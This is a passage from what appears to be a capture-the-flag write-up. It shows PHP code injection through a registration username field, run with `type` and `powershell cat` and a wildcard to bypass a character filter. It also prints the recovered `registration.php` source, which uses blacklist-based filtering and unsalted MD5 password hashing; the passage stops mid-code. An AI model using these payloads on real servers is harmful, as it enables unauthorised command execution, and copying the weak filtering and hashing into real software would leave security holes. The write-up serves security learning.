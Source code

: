 I then tried to get the `registration.php` source, but it seems the `.`
breaks things when I tried:



    a<?php echo `type \\inetpub\\wwwroot\\user\\registration.php` ?>b



But, I know that `?` isn't blocked, and that's a single character wild
card. So I register as:



    a<?php echo `type \\inetpub\\wwwroot\\user\\registration?php` ?>b



Something about `?` wildcards are funky. I couldn't get that to work. So
eventually I registered:



    a<?php echo `powershell cat \\inetpub\\wwwroot\\user\\registration*php` ?>b



I got the source for both files. Here's `registration.php`:



    <!DOCTYPE.md>
    .md>
    <meta charset="utf-8">

    </head>
    <body>
    <?php
    require('db.php');                                                                                                                                                                                                                    
    // If form submitted, insert values into the database.                                                                                                                                                                                
    if (isset($_REQUEST['username'])){                                                                                                                                                                                                    
            // removes backslashes                           
            $username = stripslashes($_REQUEST['username']);                                                           
            $username = str_replace('-', '', $username);                                                               
            $username = str_replace('$', '', $username);                                                               
            $username = str_replace('[', '', $username);                                                               
            $username = str_replace('(', '', $username);                                                               
            $username = str_replace('_', '', $username);                                                               
            $username = str_replace('.', '', $username);                                                               
            $username = str_replace(';', '', $username);                                                               
            $username = str_replace('&', '', $username);                                                               
            $username = str_replace('"', '', $username);                                                               
            //escapes special characters in a string         
            $username = mysqli_real_escape_string($con,$username);                                                     
            $email = stripslashes($_REQUEST['email']);       
            $email = mysqli_real_escape_string($con,$email);                                                           
            $password = stripslashes($_REQUEST['password']);                                                           
            $password = mysqli_real_escape_string($con,$password);                                                     
            $trn_date = date("Y-m-d H:i:s");                 
            $query = "INSERT into `users` (username, password, email, trn_date)                                        
    VALUES ('$username', '".md5($password)."', '$email', '$trn_date')";                                                
            $result = mysqli_query($con,$query);             
            if($result){                                     
